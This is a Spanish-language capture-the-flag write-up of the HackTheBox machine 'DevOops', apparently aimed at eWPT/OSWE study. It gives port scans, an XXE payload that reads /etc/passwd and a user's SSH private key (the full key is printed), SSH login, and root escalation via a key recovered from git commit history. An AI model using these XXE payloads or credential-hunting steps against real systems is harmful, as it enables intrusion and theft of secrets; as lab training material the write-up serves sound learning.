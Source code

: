 # Máquina "DevOops" de HackTheBox

## Características

- Linux  
- Media 
- XXE (XML External Entity Injection) Exploitation Reading internal files through XXE 
- Private SSH Key Abusing a Github project 
- Information Leakage in Project Commits [Privilege Escalation]

**Útil en:**
- eWPT 
- OSWE

**IP:** 10.10.10.91

## Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.91 -oG allports
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Escaneo detallado:

```bash
nmap -sV -sC -p 22,5000 10.10.10.91
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Codename (versión determinada):** Ubuntu Xenial

## Reconocimiento web

Lanzamos whatweb:

```bash
whatweb http://10.10.10.91:5000
```

Nos devuelve:
```
http://10.10.10.91:5000 [200 OK] Country[RESERVED][ZZ], HTTPServer[gunicorn/19.7.1], IP[10.10.10.91]
```

Hacemos `Ctrl + U` para ver el código fuente. Revisamos headers y como nada funcionó, nos pondremos a fuzzear con Gobuster:

```bash
sudo gobuster dir -u http://10.10.10.91:5000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

Donde:
- `-t 200` = 200 hilos
- `-x php` = archivos con extensión php

![Upload directory](/secciones/posts/imagenes/devoops/upload1.png)

## Explotación XXE

Probamos creando un archivo `.xml` con cualquier texto. Lo cargamos y devuelve error. Intentaremos con el siguiente formato:

```xml
<entry>
<Author>0xdf</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</entry>
```

Y obtenemos esta respuesta:

```
HTTP/1.1 200 OK
Server: gunicorn/19.7.1
Date: Mon, 04 Jun 2018 19:17:00 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 163

 PROCESSED BLOGPOST:
  Author: 0xdf
 Subject: Testing
 Content: This is a test
 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

Es más, el archivo está donde dicen que está:

```bash
curl http://10.10.10.91:5000/uploads/test.xml
```

```xml
<item>
<Author>test</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>
```

Como el input ingresado en el XML es procesado, podemos intentar alterarlo para aprovecharnos de esto con External Entity Injection (XXE). Vamos a Google y buscamos "XXE PortSwigger", así que vamos a declarar una entidad: https://portswigger.net/web-security/xxe

Haremos el siguiente archivo XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>si</Subject>
    <Content>no</Content>
</elements>
```

Lo que hace esto es:
- `<!DOCTYPE foo` = formato file
- `<!ENTITY xxe` = leer el archivo y devolverlo en Author

¡Y funciona! Tenemos el `/etc/passwd` de la máquina víctima. Así que se acontece el XXE, así que intentaremos ver las claves privadas de SSH:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<elements>
    <Author>&xxe;</Author>
    <Subject>SSH Key</Subject>
    <Content>Private Key</Content>
</elements>
```

Obtenemos:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

Copiamos la clave en nuestro lado como `id_rsa`, le damos permisos 600 para que solo el propietario y el admin puedan leer la clave:

```bash
chmod 600 id_rsa
```

Nos conectamos como roosa por SSH:

```bash
ssh roosa@10.10.10.91 -i ~/id_rsa_devoops_roosa
```

¡Y somos roosa! Buscamos la flag de user.

## Escalamiento a root

Lanzamos:

```bash
id
```

```
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```

Somos parte del grupo `adm`. Estando en el grupo adm podemos leer los logs del sistema.

Lanzamos:

```bash
ls -l /var/log/
lsb_release -a  # para ver la versión de Ubuntu
```

Tratamos de husmear un poco. Vemos directorios raros como `work`. Ingresamos y vemos un archivo `readme.md`. Lanzamos:

```bash
ls -la
```

Estamos dentro de un proyecto GitHub, así que lanzamos:

```bash
find .
```

Nos mostrará todos los recursos dentro, incluidos `/resources/integration/authcredentials.key`.

Le hacemos un `cat` y es una clave tipo SSH, quizás de root. La copiamos en nuestra máquina atacante como `id_rsa`, le damos permisos 600 e intentamos entrar sin conseguirlo.

Continuamos revisando, así que vamos a `blogfeed` y dentro de `work` lanzamos:

```bash
ls -la
```

Nuevamente, como es un proyecto de GitHub, podemos listar los commits que han habido en el proyecto lanzando:

```bash
git log
```

Nos mostrará varios logs con notas y cambios respectivos. Copiamos el código de commit:

![Git commit](/secciones/posts/imagenes/devoops/comit1.png)

```bash
git log -p ca3e768f2434511e75bd5137593895bd38e1b1c2
```

Nos muestra los cambios implementados a nivel de código. Hay uno que dice "reverted accidental commit with proper key". Buscamos por el código y es una clave privada que fue cambiada, así que copiamos la clave, vamos al directorio `/tmp`, la agregamos como `id_rsa`, le damos permisos 600 e ingresamos como root por SSH:

```bash
ssh -i id_rsa root@localhost
```

¡Y somos root!

---

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.